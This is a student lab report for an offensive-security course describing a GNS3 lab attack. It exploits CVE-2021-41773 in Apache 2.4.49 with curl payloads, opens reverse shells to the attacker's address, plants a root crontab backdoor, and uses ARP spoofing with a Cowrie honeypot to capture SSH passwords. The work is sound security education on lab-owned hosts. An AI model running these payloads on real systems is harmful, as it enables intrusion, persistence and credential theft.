# 3 Software Vulnerabilities (high-level exploitations)

Name of report: SW_VULNS_LAB_3_Nikita_Niakhai
Course: Offensive Technologies
Performed by Nikita Niakhai
Date submission: 14.05.2026
---

>
>
>
> This lab is designed to guide you through building a practical penetration testing environment
> and simulating real-world attack scenarios. You’ll set up a minimal yet functional network
> architecture that includes both vulnerable and secure systems, mimicking common enterprise
> layouts such as DMZs and segmented networks. Through a series of tasks, you’ll exploit known
> vulnerabilities, attempt lateral movement, and escalate privileges — ultimately simulating an
> advanced persistent threat. The goal is to deepen your understanding of offensive security
> techniques and network exploitation while reinforcing concepts in ethical hacking and system
> hardening.
>

---

# Task 1 - Setup of Infrastructure for Penetration Testing

## Setup of a Minimal Network Architecture

- I used GNS3 with GNS3VM and `ubuntu 22.04 live server.iso` for virtual VMs inside GNS3
- I created a minimal lab architecture with an attacker host, a vulnerable node, and a protected kingdom node, put them in one LAN with static IP addresses and ipv4 forwarding to the NAT through the vulnerable node.



Figure. Minimal penetration testing network with attacker host, vulnerable node, protected kingdom node, perimeter segment, and isolated internal subnet.

**Configurations on nodes:**

```bash
#BobIsVulnerable
# Change hostname and add static IPs to vuln node
echo "BobIsVulnerable" | sudo tee /etc/hostname
echo "127.0.0.1 BobIsVulnerable" >> /etc/hosts
# On BobIsVulnerable
echo "nameserver 8.8.8.8" | sudo tee /etc/resolv.conf
sudo chattr +i /etc/resolv.conf
ping google.com
sudo hostname BobIsVulnerable
sudo ip a add 10.0.0.1/24 dev ens4
sudo ip link set ens4 up
# Assign internal IP if not already set
# Make it persistent (Ubuntu 22.04 uses netplan)
sudo tee /etc/netplan/99-internal.yaml <<EOF
network:
  version: 2
  ethernets:
    ens3:
      addresses: [10.0.0.1/24]

netplan appy

# On BobIsVulnerable — enable forwarding + NAT
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
# (ens3 = the NAT-facing interface on Bob, adjust if different)
sudo iptables -t nat -A POSTROUTING -s 10.0.0.0/24 -o ens3 -j MASQUERADE
```

```bash
# KingdomCome
# Similar steps for kingdom node
echo "KingdomCome" | sudo tee /etc/hostname
echo "127.0.0.1 KingdomCome" >> /etc/hosts
sudo hostname KingdomCome
sudo ip a add 10.0.0.2/24 dev ens3
sudo ip link set ens3 up
echo "nameserver 8.8.8.8" | sudo tee /etc/resolv.conf
# Prevent systemd-resolved from overwriting it
sudo chattr +i /etc/resolv.conf
# On Kingdom and Client — route internet traffic through Bob
sudo ip route add default via 10.0.0.1
```

```bash
# MisterClientAkaSmith
# Similar steps for client node
echo "MisterClientAkaSmith" | sudo tee /etc/hostname
echo "127.0.0.1 MisterClientAkaSmith" >> /etc/hosts
sudo hostname MisterClientAkaSmith
sudo ip a add 10.0.0.3/24 dev ens3
sudo ip link set ens3 up
echo "nameserver 8.8.8.8" | sudo tee /etc/resolv.conf
# Prevent systemd-resolved from overwriting it
sudo chattr +i /etc/resolv.conf
# On Kingdom and Client — route internet traffic through Bob
sudo ip route add default via 10.0.0.1
```

- I used the attacker host as the operator workstation (**GNS3VM**) for controlled validation and evidence collection. Gained access on muy host machine via ssh.



Figure. Attacker node testing connections

- I deployed the vulnerable node as the first assessment target inside the exposed LAN, perimeter, or DMZ-like segment and tested connectivity
    - between nodes inside LAN
    - to NAT
    - to the attacker





Figure. Vulnerable node testing connections

- I deployed the kingdom node as the protected internal system that was not directly exposed as the initial vulnerable target.
    - I isolated the kingdom node in a separate internal segment so that access to it depended on network design, trust boundaries, and segmentation behavior.
    - Also I tested the connectivity.

```bash
# Install and enable OpenSSH with password auth
sudo apt update && sudo apt install -y openssh-server
sudo sed -i 's/^#PasswordAuthentication yes/PasswordAuthentication yes/' /etc/ssh/sshd_config
sudo sed -i 's/^PasswordAuthentication no/PasswordAuthentication yes/' /etc/ssh/sshd_config
sudo systemctl restart sshd

# Create a user with a known password (this is the credential client will use)
sudo useradd -m -s /bin/bash kingdomuser
echo "kingdomuser:kingdom123" | sudo chpasswd
```



Figure. Kingdom node testing connections

- My next step was setting up  packets for a client machine and verifying the connectivity.

```bash
# Install SSH client, remove any known_hosts so it will prompt on first connect
sudo apt update && sudo apt install -y openssh-client
rm -f ~/.ssh/known_hosts

# created a script that simulates periodic SSH login to kingdom
# (trigger this manually during Task 3)
cat > ~/ssh_to_kingdom.sh <<'EOF'
#!/bin/bash
sshpass -p "kingdom123" ssh -o StrictHostKeyChecking=no kingdomuser@10.0.0.2 "echo connected"
EOF
chmod +x ~/ssh_to_kingdom.sh
sudo apt install -y sshpass
```



Figure. Client node testing connections

---

# Task 2 - Make an exploitation

### Controlled Vulnerability Validation

- I selected one software vulnerability as the main proof-of-concept target for the vulnerable node.

> **Exploitation: CVE-2021-41773 (Apache 2.4.49 Path Traversal + RCE)**
>
> Apache HTTP Server **2.4.49** has a path traversal flaw in URL normalization. When `mod_cgi` is enabled and `Require all denied` is **not** set on cgi-bin, an attacker can traverse outside the document root and execute arbitrary commands via a crafted URL — no auth required.

## Validation of the Chosen Software Vulnerability

- I created a custom docker container with deprecated version of apache server allowing me to gain access to **Apache 2.4.49 Path Traversal + RCE.** To this point I came on the second attempt since first two approaches with installing community containers did not work out.
- Setup vulnerable node and infrastructure:

```bash
# On BobIsVulnerable
sudo apt update && sudo apt install -y docker.io
sudo systemctl start docker

# Run Apache 2.4.49 with mod_cgi enabled (intentionally misconfigured)
sudo docker run -d \
  --name apache-vuln \
  --network host \
  httpd:2.4.49

 # Exec in and enable CGI + misconfigure access
sudo docker exec apache-vuln bash -c '
  sed -i "s/Options Indexes FollowSymLinks.*/Options Indexes FollowSymLinks ExecCGI/" /usr/local/apache2/conf/httpd.conf
  sed -i "s/#LoadModule cgid_module/LoadModule cgid_module/" /usr/local/apache2/conf/httpd.conf
  sed -i "s/#LoadModule cgi_module/LoadModule cgi_module/" /usr/local/apache2/conf/httpd.conf
  echo "AddHandler cgi-script .cgi .sh" >> /usr/local/apache2/conf/httpd.conf
  sed -i "/cgi-bin/,/Directory/{/Require all denied/d}" /usr/local/apache2/conf/httpd.conf
  apachectl restart
'

# Container's configuration for apache vulnerability
sudo docker exec apache-vuln bash -c '
sed -i "s/    Options None/    Options ExecCGI/" /usr/local/apache2/conf/httpd.conf
apachectl restart
'

# Since this version was not succeding, I rebuild it to some custom solution (config details).

sudo docker stop apache-vuln && sudo docker rm apache-vuln

sudo mkdir /tmp/apachebuild && sudo tee /tmp/apachebuild/Dockerfile <<'EOF'
FROM httpd:2.4.49
RUN sed -i 's/Require all denied/Require all granted/g' /usr/local/apache2/conf/httpd.conf
RUN sed -i 's/Options None/Options ExecCGI/g' /usr/local/apache2/conf/httpd.conf
RUN sed -i 's/#LoadModule cgid_module/LoadModule cgid_module/' /usr/local/apache2/conf/httpd.conf
RUN sed -i 's/Options Indexes FollowSymLinks$/Options Indexes FollowSymLinks ExecCGI/' /usr/local/apache2/conf/httpd.conf
EOF

sudo docker build -t apache-vuln-custom /tmp/apachebuild/
sudo docker run -d --name apache-vuln --network host apache-vuln-custom
```

- From attacker machine I tested the path (CVE):

```bash
# Simple path traversal — read /etc/passwd
 # RCE - execute id command
curl -s --path-as-is "http://192.168.122.59/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
  --data "echo Content-Type: text/plain; echo; id" 
```



Figure. RCE executing command from the attacker

- Getting a reverse shell. I exploited this vulnerability via `curl` from the attacker, so that I gain CLI access as a docker env user.

```bash
# First, start listener on attacker ():
nc -lvnp 4444

# Executed id command from bob
curl -s --path-as-is "http://192.168.122.59/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash" \
  --data "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/192.168.122.1/4444 0>&1"

# Then send the payload from victim:
curl -s --path-as-is \
  -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/192.168.122.1/4444 0>&1' \
  "http://192.168.122.59/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash"
```



Figure. POC of exploiting the vulnerability. Reverse shell. Gaining access.

- I validated the selected issue only against the lab-owned vulnerable node.
- I confirmed that the service matched the expected version, exposure, and network reachability before validation.

## Exploration of the Environment from the Validated Node

- Then I explored the network further:

```bash
# From reverse shell on BobIsVulnerable container:
id
hostname
cat /etc/hosts
ip a   # or: hostname -I

# Scan internal network (install nmap or use /dev/tcp trick)
for i in $(seq 1 5); do
  (echo >/dev/tcp/10.0.0.$i/22) 2>/dev/null && echo "10.0.0.$i:22 open"
done
```



Figure. First exploring steps on the vulnerable node

- I reviewed the validated node from the obtained lab context.

```bash
# I am  inside the container. 
# Since --network host is set, the container 
# shares Bob's network stack directly. 
# Checked interfaces differently:
cat /proc/net/fib_trie | grep -A1 "LOCAL" | grep "32 host" 

# Now scan for Kingdom and Client:
for i in $(seq 1 5); do
  (echo >/dev/tcp/10.0.0.$i/22) 2>/dev/null && echo "10.0.0.$i:22 open"
done

# Fixing docker error with internet for LAN

sudo iptables -I FORWARD 1 -s 10.0.0.0/24 -j ACCEPT
sudo iptables -I FORWARD 2 -d 10.0.0.0/24 -m state --state RELATED,ESTABLISHED -j ACCEPT
```





Figure. More of exploring steps on the vulnerable node

- Now I identified local network interfaces, reachable lab subnets, active services, and trust relationships relevant to the kingdom network.
- I used these results to decide how the internal kingdom segment could be assessed in Task 3.

## Gaining root access

**Prerequisites for the gaining privillege access.**

- Recreated a container with crontab mounted (basically always present on victims)

```bash
sudo docker stop apache-vuln && sudo docker rm apache-vuln

sudo docker run -d \
  --name apache-vuln \
  --network host \
  -v /etc/crontab:/host/crontab \
  apache-vuln-custom

chmod o+w /etc/crontab
```

- Rexploited the vulnerability on new environment.

```bash
# Attacker
nc -lvnp 4444

# Bob
curl -s --path-as-is "http://192.168.122.59/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash" \
  --data "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/192.168.122.1/4444 0>&1"
```



Figure. Bob’s environment with crontab present

- Creating new console tab with a new shell listening on port 5555.



Figure. Second shell listening for 5555 on attacker machine

- From the first shell I created a crontab and verified changes:

```bash
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/192.168.122.1/5555 0>&1'" >> /host/crontab

tail -1 /host/crontab
```



Figure. Creation of the backdoor (crontab)

- From now on every 60 seconds I will receve a connection on open listener 5555 as a root from Bob’s machine.



Figure. Gaining privileged access

# Task 3 - Attack a non-vulnerable node (kingdom) + Bonus 1: ARP spoofing

- I treated the kingdom node as a non-vulnerable internal asset and did not rely on a direct software flaw in that node.
- I first confirmed that the attacker host had no direct route to the kingdom node under the original network design.

- Creating a cowrie service on the Bob (as an attacker on the root):

```bash
apt update && apt install -y dsniff iptables

# enabled ip forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

#Redirect SSH traffic to Cowrie:
iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222

# Run cowrie
docker run -d -p 2222:2222 --name cowrie cowrie/cowrie:latest
```



Figure. Cowrie status

- I implemented one approved network-path technique (ARP spoofing) to further get access to the kingdom host. I selected the technique based on the lab topology, the trust boundary, and the observed traffic path.
- ARP Spoofing from bob  (tell Client that Bob is Kingdom):

```bash
arpspoof -i ens4 -t 10.0.0.3 10.0.0.2 &
```



Figure. ARP spoofing from shell2 on the Bob

- Then on **MisterClientAkaSmith**, I triggered the SSH connection, whilst Checking cowrie logs on the bob

```bash
ssh kingdomuser@10.0.0.2
# enter password: kingdom123
```

```bash
docker exec cowrie cat /var/log/cowrie/cowrie.log | grep -i "password\|login"
```

